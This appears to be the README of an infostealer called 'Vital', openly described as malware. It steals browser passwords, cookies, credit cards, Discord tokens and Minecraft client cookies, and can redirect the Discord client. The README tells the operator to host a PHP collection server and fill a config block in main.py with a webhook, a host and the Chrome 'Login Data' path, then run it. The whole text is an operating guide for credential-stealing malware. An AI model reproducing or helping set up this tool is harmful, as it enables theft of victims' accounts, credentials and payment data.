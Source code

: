 # Vital
- What is Vital?
> Vital is malware primarily used to collect and
> extract information from the Discord desktop client.
> While it has other features (MC stealer, browser tools)
> it really shines in this area.

- Overview of Vital
> Vital has the ability to steal browser passwords, cookies, and credit cards.
> It also collects Discord tokens, Minecraft client cookies and can redirect
> the Discord client to an alternative web address.

- Support / coverage
> Vital supports a plethora of Discord clients and browsers,
> from commonly used browsers such as Chrome and Firefox to
> lesser used browsers such as (i don't know)

# Usage
Setup a webserver on either a local machine or a remote machine, hosting the
PHP file. Once you have your local server setup, make sure to configure everything
**__properly__** inside of `main.py`.

- Example
```python
WEBHOOK = '
REDIRECT = ''
HOST = '
CHROME_DATA = '\\AppData\\Local\\Google\\Chrome\\User Data\\Default\\Login Data'
USERNAME = os.environ.get('USERNAME')
APPDATA = os.getenv('APPDATA')

DEBUG = False
```

After this you can execute `main.py` and watch the magic happen!
